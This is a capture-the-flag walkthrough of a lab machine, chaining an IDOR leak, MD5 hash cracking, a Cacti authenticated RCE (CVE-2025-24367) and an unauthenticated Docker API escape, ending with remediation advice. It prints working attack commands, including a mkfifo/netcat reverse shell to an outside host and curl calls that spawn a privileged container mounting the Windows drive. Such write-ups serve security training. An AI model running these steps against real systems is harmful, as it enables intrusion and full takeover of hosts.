



| Property         | Value                                                                |
| ---------------- | -------------------------------------------------------------------- |
| **OS**           | Windows                                                              |
| **Difficulty**   | Easy                                                                 |
| **Release Date** | 2025-12-06                                                           |
| **State**        | Active                                                               |
| **IP**           | 10.129.68.39                                                         |
| **Techniques**   | directory fuzzing, IDOR, vhost enumeration, Cacti RCE, Docker escape |
| **Tags**         | #web #privesc #windows #docker                                       |

---
## Summary

MonitorsFour is an easy Windows machine hosting a network solutions platform on port 80. Directory fuzzing exposes a `/user` endpoint vulnerable to an Insecure Direct Object Reference (IDOR) through a `token` parameter, leaking user records and MD5-hashed passwords. The hash for the admin user `marcus` can be cracked, granting access to both the main application and a `cacti.monitorsfour.htb` virtual host. The Cacti instance runs version 1.2.28, vulnerable to an authenticated RCE (CVE-2025-24367), which provides a shell as `www-data` inside a WSL2 Docker container. The Docker daemon API is exposed unauthenticated on TCP port 2375 of the WSL2 host gateway, allowing an attacker to spawn a privileged container with the Windows host filesystem mounted and access it with full privileges.

---
## Enumeration

```
echo '10.129.68.39 monitorsfour.htb' | sudo tee -a /etc/hosts
```

Added the IP address of the machine to the `/etc/hosts` file.

### Nmap Scan

```
sudo nmap -sV -sC monitorsfour.htb
Starting Nmap 7.95 ( https://nmap.org ) at 2026-05-15 06:56 EDT
Nmap scan report for monitorsfour.htb (10.129.68.39)
Host is up (0.044s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
80/tcp   open  http    nginx
|_http-title: MonitorsFour - Networking Solutions
| http-cookie-flags:
|   /:
|     PHPSESSID:
|_      httponly flag not set
5985/tcp open  http    Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Nmap done: 1 IP address (1 host up) scanned in 18.80 seconds
```

The WinRM port 5985 is not accessible.

### Service Enumeration

The web application on port 80 is a MonitorsFour networking solutions platform.



**Exposed user endpoint:**

```
gobuster dir -u http://monitorsfour.htb \
  -w /home/kali/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt

/contact    (Status: 200) [Size: 367]
/login      (Status: 200) [Size: 4340]
/user       (Status: 200) [Size: 35]
/static     (Status: 301) [Size: 162] [--> http://monitorsfour.htb/static/]
```

---
## Foothold

### IDOR

The `/user` endpoint returns an error when the `token` parameter is missing, and responds with a JSON file of user records when the 0 value is supplied. The token is used as an access control mechanism, but the application accepts the value without validating it against the authenticated session. 
### Exploitation

```
curl "http://monitorsfour.htb/user" 
{"error":"Missing token parameter"}
```

```
curl "http://monitorsfour.htb/user?token=0"
  [{"id":2,"username":"admin","email":"admin@monitorsfour.htb","password":"56b32eb43e6f15395f6c46c1c9e1cd36","role":"super user","token":"8024b78f83f102da4f","name":"Marcus Higgins",...},
  {"id":5,"username":"mwatson","email":"mwatson@monitorsfour.htb","password":"69196959c16b26ef00b77d82cf6eb169",...},
  {"id":6,"username":"janderson","email":"janderson@monitorsfour.htb","password":"2a22dcf99190c322d974c8df5ba3256b",...},
  {"id":7,"username":"dthompson","email":"dthompson@monitorsfour.htb","password":"8d4a7e7fd08555133e056d9aacb1e519",...}]
```

Four user accounts are disclosed, each with their MD5-hashed password.

**Hash cracking:**

```
hashcat -m 0 '56b32eb43e6f15395f6c46c1c9e1cd36' /usr/share/wordlists/rockyou.txt --show
56b32eb43e6f15395f6c46c1c9e1cd36:wonderful1
```

Only the admin hash can be cracked. The other three hashes do not crack against `rockyou.txt`.

Password retrieved: `wonderful1`

The dashboard on the main domain is accessible with the credentials: `admin:wonderful1`



### Vhost Discovery

```
gobuster vhost -u http://monitorsfour.htb \
  -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain

cacti.monitorsfour.htb   Status: 302 [Size: 0] [--> /cacti]
```

```
echo '10.129.68.39 cacti.monitorsfour.htb' | sudo tee -a /etc/hosts
```

The `cacti.monitorsfour.htb` virtual host hosts a Cacti instance.

Cacti is accessible with the credentials: `marcus:wonderful1`.

**Vulnerable Cacti version 1.2.28:**



---
## CVE-2025-24367

Cacti is an open-source performance and fault management framework. In versions prior to 1.2.29, an authenticated user can abuse the graph creation and graph template functionality to write arbitrary PHP files into the web root of the application. The cause is insufficient sanitisation of newline characters in user-supplied input that gets embedded into PHP files during graph template processing. Because the resulting files are served by the web server, an attacker can trigger their execution and achieve remote code execution on the server.

### Exploitation

PoC: [github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC](https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC)

```shell
python3 exploit.py -u marcus -p wonderful1 -i 10.10.14.224 -l 1111 -url http://cacti.monitorsfour.htb

[+] Cacti Instance Found!
[+] Login Successful!
[+] Got graph ID: 226
[i] Created PHP filename: Z1OFM.php
[i] Created PHP filename: yojbs.php
[+] Hit timeout, looks good for shell, check your listener!
```

```
nc -lvnp 1111
connect to [10.10.14.224] from (UNKNOWN) [10.129.68.39] 50984
www-data@821fbd6a43fa:~/html/cacti$
```

A shell is obtained as `www-data`.

**User flag:**

```
www-data@821fbd6a43fa:~/html/cacti$ cat /home/marcus/user.txt
db6*********************06a
```

---
## Privilege Escalation

### Enumeration

The hostname (`821fbd6a43fa`) and kernel version confirm that the shell is inside a Docker container running under WSL2, which is Microsoft's Windows Subsystem for Linux 2, a lightweight Hyper-V VM that Docker Desktop uses on Windows to run Linux containers.

```
www-data@821fbd6a43fa:~/html/cacti$ uname -a
Linux 821fbd6a43fa 6.6.87.2-microsoft-standard-WSL2 #1 SMP PREEMPT_DYNAMIC Thu Jun  5 18:30:46 UTC 2025 x86_64 GNU/Linux
```

The container's network interface and IP confirm it is inside the `172.18.0.0/16` Docker bridge network:

```
www-data@821fbd6a43fa:~/html/cacti$ ip a
2: eth0@if7: inet 172.18.0.3/16 brd 172.18.255.255 scope global eth0
```

In a Docker Desktop for Windows setup, the WSL2 host (the Linux VM that runs Docker) is reachable from within containers at the gateway of the bridge network.

In this case `192.168.65.7` as indicated by `/etc/resolv.conf`:

```
www-data@821fbd6a43fa:~/html/cacti$ cat /etc/resolv.conf cat /etc/resolv.conf 
# Generated by Docker Engine. 
# This file can be edited; Docker Engine will not make further changes once it 
# has been modified. 

nameserver 127.0.0.11 
options ndots:0 

# Based on host file: '/etc/resolv.conf' (internal resolver) 
# ExtServers: [host(192.168.65.7)] 
# Overrides: [] 
# Option ndots from: internal
```

The Docker daemon API, when not explicitly restricted, listens on TCP port 2375 on that host.

**Unauthenticated Docker API on port 2375:**

```
www-data@821fbd6a43fa:~/html/cacti$ curl -s http://192.168.65.7:2375/images/json | \
  grep -o '"RepoTags":\["[^"]*"'

"RepoTags":["docker_setup-nginx-php:latest"
"RepoTags":["docker_setup-mariadb:latest"
"RepoTags":["alpine:latest"
```

The Docker API daemon is listening unauthenticated on the network. This means any process that can reach that address, including a container can issue commands to the Docker engine with the highest privileges.
In Docker Desktop for Windows, the WSL2 virtual disk and the Windows host filesystem are integrated: the Windows `C:\` drive is mounted inside the WSL2 VM at `/mnt/host/c`. A container created with that path as a bind mount and `Privileged: true` will therefore have full read/write access to the Windows host filesystem.

### Exploitation

A container configuration `.json` file is written to bind-mount the Windows `C:\` drive and execute a reverse shell:

```json
{
    "Image": "alpine:latest",
    "Cmd": ["sh", "-c", "rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.10.14.224 4444 >/tmp/f"],
    "HostConfig": {
      "Binds": ["/mnt/host/c:/host"],
      "Privileged": true
    }
}
```

The `Privileged` flag disables all container isolation mechanisms (seccomp, AppArmor, capability restrictions), and the `Binds` entry maps the Windows `C:\` drive into the container at `/host`.

Serving the configuration and downloading it from within the container:

```
python3 -m http.server 8000
```

```
www-data@821fbd6a43fa:/tmp$ curl -s http://10.10.14.224:8000/container.json -o /tmp/container.json
```

Creating the container via the Docker API:

```
www-data@821fbd6a43fa:/tmp$ curl -s -X POST http://192.168.65.7:2375/containers/create \
  -H "Content-Type: application/json" -d @/tmp/container.json

{"Id":"677251b54a531402e0fe365169e0174faaf48312c1f712e70e0c62a68721557b","Warnings":[]}
```

Starting the container with an active listener:

```
www-data@821fbd6a43fa:/tmp$ curl -s -X POST \
  http://192.168.65.7:2375/containers/677251b54a531402e0fe365169e0174faaf48312c1f712e70e0c62a68721557b/start
```

**Root flag:**

```
nc -lvnp 4444
connect to [10.10.14.224] from (UNKNOWN) [10.129.68.39] 50997

/ # cd /host/Users/Administrator/Desktop
/host/Users/Administrator/Desktop # cat root.txt
bd3*********************371
```

---
## Remediation

- **IDOR:** Enforce server-side access control on all data endpoints. Token-based access must be validated against the authenticated session.
- **MD5 password hashing:** Replace MD5 with a modern hashing algorithm such as bcrypt or Argon2.
- **Credential reuse:** Use different passwords for each application, enforce a stronger password policy.
- **CVE-2025-24367:** Upgrade Cacti to version 1.2.29 or later.
- **Unauthenticated Docker API:** Do not expose the Docker daemon socket over TCP without TLS authentication. The default unauthenticated TCP listener (`-H tcp://0.0.0.0:2375`) is equivalent to granting privileged access to anyone who can reach that port. Bind to localhost only, or use TLS with client certificates on port 2376.

---
## References

- [CVE-2025-24367 PoC](https://github.com/TheCyberGeek/CVE-2025-24367-Cacti-PoC)
- [Docker Daemon Attack Surface](https://docs.docker.com/engine/security/#docker-daemon-attack-surface)
- [OWASP — IDOR Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Insecure_Direct_Object_Reference_Prevention_Cheat_Sheet.html)